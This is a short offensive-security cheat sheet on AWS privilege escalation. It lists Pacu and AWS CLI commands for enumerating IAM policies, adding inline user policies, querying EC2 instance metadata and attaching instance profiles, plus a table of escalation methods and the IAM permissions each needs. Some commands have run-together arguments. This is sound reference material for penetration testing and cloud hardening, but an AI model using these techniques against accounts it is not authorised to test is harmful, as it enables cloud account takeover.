# Privilege Escalation

Pacu tool

```
run iam__bruteforce_permissions
```

## IAM Privilege Escalation

Lists all managed policies that are attached to the specified IAM user :

```
aws iam list-attached-user-policies --user-name user-name
```

Retrieves information about the specified managed policy :&#x20;

```
aws iam get-policy --policy-arn policy-arn
```

Lists information about the versions of the specified managed policy :

```
aws iam list-policy-versions --policy-arn policy-arn
```

Retrieves information about the specified version of the specified managed policy :

```
aws iam get-policy-version --policy-arn policy-arn--version-id version-id
```

Add an inline policy document that is embedded in the specified IAM user :

```
aws iam put-user-policy --user-name Username--Policy-name PolicyName--policy-document file://Policy.json
```

Lists the names of the inline policies embedded in the specified IAM user :

```
aws iam list-user-policies --user-name user-name
```

[AWS IAM Privilege Escalation – Methods and Mitigation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

| \*\*Privilege Escalation Methods \*\*                      | \*\*Required Permission \*\*                             |
| ---------------------------------------------------------- | -------------------------------------------------------- |
| Attaching a policy to a user                               | iam:AttachUserPolicy                                     |
| Attaching a policy to a group                              | iam:AttachGroupPolicy                                    |
| Attaching a policy to a role                               | iam:AttachRolePolicy                                     |
| Creating a new user access key                             | iam:CreateAccessKey                                      |
| Creating a new login profile                               | iam:CreateLoginProfile                                   |
| Updating an existing login profile                         | iam:UpdateLoginProfile                                   |
| Creating an EC2 instance with an existing instance profile | iam:PassRole ec2:RunInstances                            |
| Creating/updating an inline policy for a user              | iam:PutUserPolicy                                        |
| Creating/updating an inline policy for a group             | iam:PutGroupPolicy                                       |
| Creating/updating an inline policy for a role              | iam:PutRolePolicy                                        |
| Adding a user to a group                                   | iam:AddUserToGroup                                       |
| Updating the AssumeRolePolicyDocumentof a role             | iam:UpdateAssumeRolePolicy sts:AssumeRole                |
| Passing a role to a new Lambda function, then invoking it  | iam:PassRole lambda:CreateFunction lambda:InvokeFunction |
| Updating the code of an existing Lambda function           | lambda:UpdateFunctionCode                                |

## EC2 Privilege Escalation

Get Information about user identity / role identity   :

```
aws sts get-caller-identity
```

Lists all managed policies that are attached to the specified IAM user :

```
aws iam list-attached-user-policies --user-name user-name
```

Retrieves information about the specified version of the specified managed policy :

```
aws iam get-policy-version --policy-arnpolicy-arn--version-id version-id
```

Get-Information about instance id  :

```
curl http://169.254.169.254/latest/meta-data/instance-id
```

Lists the instance profiles :

```
aws iam list-instance-profiles
```

Attach an instance profile with a role to a EC2 instance: :&#x20;

```
aws ec2 associate-iam-instance-profile --instance-id InstanceID --iam-instance-profile Name=ProfileName
```
